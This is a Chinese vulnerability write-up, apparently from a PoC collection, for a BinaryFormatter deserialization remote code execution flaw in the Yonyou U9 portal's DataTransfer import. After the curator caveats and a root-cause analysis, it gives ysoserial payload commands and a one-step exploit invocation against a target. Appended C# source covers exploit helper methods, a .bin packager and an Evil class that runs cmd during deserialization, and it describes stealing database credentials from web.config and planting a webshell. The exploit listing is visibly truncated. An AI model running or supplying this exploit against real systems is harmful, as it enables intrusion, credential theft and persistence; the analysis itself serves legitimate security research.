


# 用友U9门户DataTransfer BinaryFormatter反序列化

## 条目说明

- 对象与具体问题：用友U9门户DataTransfer；BinaryFormatter反序列化
- 版本、配置及部署条件：Windows IIS .NET4；ea管理员数据迁移权限；版本被遮蔽
- 认证与权限前提：明确高权限管理员
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 错放NC，正文匿名某系统但文件与U9应用池指向U9，需产品证据
- 标完整Exp.cs却缺类定义/Main/cc/关键登录上传触发流程；附录文件缺链接，工具名U9Exp与Exp混用
- InvalidCastException本身不证明RCE；Binder唯一防线/无Binder任意类型表述过强需技术核验
- 不能因另一漏洞链取得管理员便直接把本漏洞PR:H改PR:L；需分开链式评分
- 原厂修复信息及版本缺失；本地Evil示例依赖目标类型存在，文末有说明应保留

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 来源：https://xz.aliyun.com/news/92746

### 1\. 产品介绍

  
某大型型企业级云 ERP 系统，提供「数据迁移」功能（`/mvc/DataTransfer/`），用于在组织间导入/导出业务数据。该功能的导入实现中使用了 .NET 的 `BinaryFormatter` 反序列化，且未做类型白名单限制，存在远程代码执行风险。  
  

### 2\. 漏洞标题

  
门户侧数据迁移接口（DataTransfer）BinaryFormatter 反序列化导致远程代码执行漏洞  
  

### 3\. 漏洞描述

  
某门户侧 `UFSoft.UBF.MVC.dll` 中的 `IoPackage.DecompressPackage(byte[])` 方法将外部上传的 `.bin` 文件解压后，直接交给 `BinaryFormatter.Deserialize()` 反序列化，且未设置 `SerializationBinder` 类型白名单。  
  
具有「数据迁移」权限的管理员会话（`ea`）可上传恶意构造的 `.bin` 文件（`BinaryFormatter` 序列化的 gadget 对象图，外包 ZIP），反序列化过程中将实例化攻击者指定的任意 .NET 类型并触发其反序列化回调，最终以 IIS 应用池（`iis apppool\u9 apppool clr4`）身份执行任意系统命令。  
  
漏洞根因对应 CWE-502（不可信数据反序列化）；同一产品此前已修复 `CommandService` 一处同类型缺陷，但门户侧该入口被遗漏。  
  

### 4\. 漏洞分析（根因定位）

  

#### 4.1 根因

  
反编译 `UFSoft.UBF.MVC.dll`：  
  

```csharp
static IoPackage DecompressPackage(byte[] bytes)
{
    BinaryFormatter formatter = new BinaryFormatter();        // ★ 未设置 Binder
    byte[] decompressed = Decompress(bytes);                  // SharpZipLib 解包
    MemoryStream stream = new MemoryStream(decompressed);
    return (IoPackage)formatter.Deserialize(stream);          // ★ 无限制反序列化
}
```

`BinaryFormatter` 反序列化按数据中的「类型全名」加载并实例化类型，`SerializationBinder` 是唯一可拦截「类型名 → Type」的钩子。未设置 Binder 即等价于允许加载任意类型。  
  

#### 4.2 触发链

  

```
POST /mvc/DataTransfer/Upload        (multipart evil.bin, 文件名 .bin)
  → 存 {FileTempPath}\PackageImport\{guid}.bin，返回 PackageUploadId
POST /mvc/DataTransfer/ImportPackage  (PackageUploadId + DataManagerProjectId)
  → 读 .bin → IoPackage.DecompressPackage(bytes)
      → Decompress(SharpZipLib ZIP 解包) → BinaryFormatter.Deserialize(无 Binder)
          → 加载 gadget 类型 → 反序列化回调 → Process.Start("cmd","/c <命令>")  ★ RCE
```

#### 4.3 gadget 原理（TextFormattingRunProperties）

  
利用 WPF 的 `ObjectDataProvider`（`ObjectType=System.Diagnostics.Process`、`MethodName="Start"`、`MethodParameters=["cmd","/c <命令>"]`），反序列化求值时反射调用 `Process.Start`，将「类型实例化」转化为「命令执行」。  
  

#### 4.4 数据流

  

```
攻击者 .bin = ZIP(单 entry) 包裹 BinaryFormatter 流
BinaryFormatter 流 = gadget 对象图（TextFormattingRunProperties → ObjectDataProvider）
```

`(IoPackage)Deserialize(...)` 中的 cast 在反序列化之后才发生，因此 gadget 代码在 cast 前已执行；攻击者实际观察到的 `InvalidCastException` 正是 RCE 已发生的表现。  
  

### 5\. 影响版本

  
●\*\*\*  
  

### 6\. 漏洞等级

  

| 项目 | 值 |
| --- | --- |
| CVSS v3.1 分数 | 7.2（High） |
| CVSS v3.1 向量 | CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H |
| 危害等级 | 高危 |

  
评分依据：网络可达（AV:N）、无交互（UI:N）、复杂度低（AC:L）；作用域不变（S:U）；需 `ea` 管理员会话（PR:H）；影响为完整机密性/完整性/可用性（C:H/I:H/A:H，RCE）。  
  
注：若评估场景中 `ea` 会话本身可通过其它低权限缺陷获取（漏洞链），PR 可降为 L，分数升至 8.8。  
  

### 7\. 复现过程

  

#### 7.1 环境

  
● Windows Server / IIS（`.NET Framework 4.x`）  
● 工具：`ysoserial.net`、`MakeBin.exe`、`U9Exp.exe`（本报告 PoC，见附录）  

#### 7.2 步骤

  
1生成恶意载荷（ysoserial）：  
  

```
ysoserial.exe -f BinaryFormatter -g TextFormattingRunProperties -c "cmd /c whoami > C:\temp\pwned.txt" -o raw > payload.raw
```

2 打包成 `.bin`（ZIP 单 entry）：  

```
MakeBin.exe payload.raw evil.bin
```

3 以 `ea` 管理员登录后，上传并触发（一键）：  

```
Exp.exe --cmd "cmd /c whoami > C:\temp\pwned.txt" --url http://<target>/U9C --user EA --pwd <密码>
```

4 验证：目标机器 `C:\temp\pwned.txt` 内容为 `iis apppool\u9 apppool clr4`，即 RCE 成功。  
  
  


  
  



  
  



  
  

#### 7.3 攻击场景（已实测）

  
● 命令执行：`whoami` 回显 IIS 应用池身份。  
● 敏感数据窃取：`type web.config` 泄露多组数据库明文连接串。  
● 持久化：web 根可写，落 WebShell（`cmd.aspx`）建立 HTTP 命令通道。  

### 8\. PoC

  
● `Exp.exe`：一键完成「登录 → 建项目 → 上传 `.bin` → 触发反序列化 → RCE」，支持任意命令。  
●详细分步见附录《复现步骤.md》《攻击场景.md》。  
  
  
  

### 附录 B：PoC 明文源代码

  

#### B.1 Exp.cs（远程利用 exp，完整源码）

  

```csharp
using System;
    static void Write(MemoryStream ms, string s) { byte[] b = Encoding.UTF8.GetBytes(s); ms.Write(b, 0, b.Length); }

    static string Read(HttpWebRequest req) {
        try {
            using (var r = (HttpWebResponse)req.GetResponse())
            using (var s = r.GetResponseStream())
            using (var sr = new StreamReader(s)) return sr.ReadToEnd();
        } catch (WebException we) {
            if (we.Response != null)
                using (var s = we.Response.GetResponseStream())
                using (var sr = new StreamReader(s)) return sr.ReadToEnd();
            return "";
        }
    }

    static string Get(string url) {
        var r = (HttpWebRequest)WebRequest.Create(url);
        r.CookieContainer = cc; r.UserAgent = "Mozilla/5.0";
        using (var resp = (HttpWebResponse)r.GetResponse())
        using (var s = resp.GetResponseStream())
        using (var sr = new StreamReader(s)) return sr.ReadToEnd();
    }

    static string Post(string url, NameValueCollection f) {
        var r = (HttpWebRequest)WebRequest.Create(url);
        r.CookieContainer = cc; r.Method = "POST"; r.UserAgent = "Mozilla/5.0";
        r.ContentType = "application/x-www-form-urlencoded";
        var sb = new StringBuilder();
        foreach (string k in f) { if (sb.Length > 0) sb.Append('&'); sb.Append(Uri.EscapeDataString(k)).Append('=').Append(Uri.EscapeDataString(f[k] ?? "")); }
        byte[] d = Encoding.UTF8.GetBytes(sb.ToString());
        r.ContentLength = d.Length;
        using (var s = r.GetRequestStream()) s.Write(d, 0, d.Length);
        return Read(r);
    }

    static string PostJson(string url, string json) {
        var req = (HttpWebRequest)WebRequest.Create(url);
        req.CookieContainer = cc; req.Method = "POST";
        req.ContentType = "application/json";
        byte[] d = Encoding.UTF8.GetBytes(json);
        req.ContentLength = d.Length;
        using (var s = req.GetRequestStream()) s.Write(d, 0, d.Length);
        return Read(req);
    }

    static long Now() { return (long)(DateTime.UtcNow - new DateTime(1970, 1, 1, 0, 0, 0, DateTimeKind.Utc)).TotalMilliseconds; }

    static string Extract(string json, string key) {
        int i = json.IndexOf("\"" + key + "\""); if (i < 0) return "";
        int c = json.IndexOf(':', i) + 1; int s = json.IndexOf('"', c) + 1; int e = json.IndexOf('"', s);
        return s <= 0 || e <= s ? "" : json.Substring(s, e - s);
    }

    static string RsaEncryptHex(string plain, string hexMod, string hexExp) {
        var rsa = new RSACryptoServiceProvider(2048);
        var p = new RSAParameters();
        p.Modulus = HexToBytes(hexMod); p.Exponent = HexToBytes(hexExp);
        rsa.ImportParameters(p);
        return BytesToHex(rsa.Encrypt(Encoding.UTF8.GetBytes(plain), false));  // PKCS#1 v1.5
    }
    static byte[] HexToBytes(string hex) { if (hex.Length % 2 == 1) hex = "0" + hex; byte[] b = new byte[hex.Length / 2]; for (int i = 0; i < b.Length; i++) b[i] = Convert.ToByte(hex.Substring(i * 2, 2), 16); return b; }
    static string BytesToHex(byte[] b) { var sb = new StringBuilder(b.Length * 2); foreach (byte x in b) sb.Append(x.ToString("x2")); return sb.ToString(); }
}

// 强制代理：始终走代理（.NET 的 WebProxy 对 localhost/127.0.0.1 硬编码绕过）
class ForceProxy : IWebProxy {
    private Uri proxyUri;
    public ForceProxy(string url) { proxyUri = new Uri(url); }
    public ICredentials Credentials { get; set; }
    public Uri GetProxy(Uri destination) { return proxyUri; }
    public bool IsBypassed(Uri host) { return false; }
}
```

#### B.2 MakeBin.cs（把 BF 载荷打成 .bin，ZIP 单 entry）

  

```csharp
using System;
using System.IO;
using ICSharpCode.SharpZipLib.Zip;

// 把 ysoserial 原始 BF 载荷打包成 U9C DataTransfer 期望的 .bin（与 IoPackage.Compress 同格式）
class MakeBin {
    static int Main(string[] args) {
        if (args.Length < 2) { Console.WriteLine("usage: MakeBin <rawPayload> <out.bin>"); return 2; }
        byte[] content = File.ReadAllBytes(args[0]);
        using (var ms = new MemoryStream()) {
            var zip = new ZipOutputStream(ms);
            zip.IsStreamOwner = false;
            var entry = new ZipEntry("a.bin") { Size = content.Length };
            zip.PutNextEntry(entry);
            zip.Write(content, 0, content.Length);
            zip.CloseEntry(); zip.Finish(); zip.Close();
            File.WriteAllBytes(args[1], ms.ToArray());
        }
        return 0;
    }
}
```

#### B.3 反序列化回调 = 代码执行点的最小自证类型（本地 PoC 核心）

  
下面的 `Evil` 类型说明了漏洞本质：`BinaryFormatter.Deserialize` 会调用类型的 `ISerializable` 特殊构造函数（反序列化回调），攻击者只要把「命令执行」写进这个回调即可。  
  

```csharp
[Serializable]
public class Evil : ISerializable
{
    public Evil() { }

    // BinaryFormatter.Deserialize 时自动调用的「反序列化构造函数」= 代码执行点
    protected Evil(SerializationInfo info, StreamingContext context)
    {
        // 任意命令执行：等价于 ysoserial gadget 的触发点
        var psi = new System.Diagnostics.ProcessStartInfo("cmd.exe", "/c whoami > C:\\temp\\poc_pwned.txt")
        {
            RedirectStandardOutput = true,
            UseShellExecute = false,
            CreateNoWindow = true
        };
        using (var p = System.Diagnostics.Process.Start(psi)) { p.WaitForExit(5000); }
    }

    public void GetObjectData(SerializationInfo info, StreamingContext context)
    {
        info.AddValue("x", 0x1337);
    }
}
```

真实攻击中，把上面的 `Evil` 换成 ysoserial 的 `TextFormattingRunProperties` gadget（无需目标已加载 Evil 类型，利用 WPF `ObjectDataProvider` 触发 `Process.Start`），原理完全一致：反序列化回调 = 代码执行点。


---

> 来源：Mr-xn/Penetration_Testing_POC
